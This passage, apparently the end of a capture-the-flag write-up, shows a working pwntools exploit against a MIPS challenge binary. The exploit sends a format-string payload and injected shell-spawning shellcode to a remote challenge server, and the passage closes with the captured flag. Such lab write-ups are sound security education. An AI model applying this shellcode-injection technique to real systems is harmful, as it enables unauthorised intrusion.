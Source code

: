 I got ahead and try to run some commands and I do in fact get responses back:
![[Pasted image 20240802234628.png]]

This seems like it might be the address. Let's go ahead and use this in our final script and send it remote:
```python
from pwn import *

context(arch='mips', bits=32, endian='big')

io = remote('0.cloud.chals.io', 12490)
#io = process(['qemu-mips-static', '-L', '.', './chall'])
#io = gdb.debug(args=['-L','.','./chall'], exe='./chall', env={},  gdbscript='''
#        break *main
#        break *main+88
#        break *0x2b2ab1c4
#
#        ''')


shellcode = asm(shellcraft.nop()) * 20
shellcode += asm(shellcraft.sh())

shellcode_len = len(shellcode)

print(hexdump(shellcode))
print(len(shellcode))


stack_addr = p32(0x2b2abf54)
io.sendline(b'%6$5c%1$'+ str(shellcode_len).encode() + b'c')
io.sendline(stack_addr)
io.sendline(shellcode)
io.sendline(b'D'*100)

io.interactive()
```


We send the payload and successfully get command execution, and read the flag:
![[Pasted image 20240802234938.png]]


# Flag
```
SIVUSCG{Seems_That_QEMU_Is_Missing_Protections}
```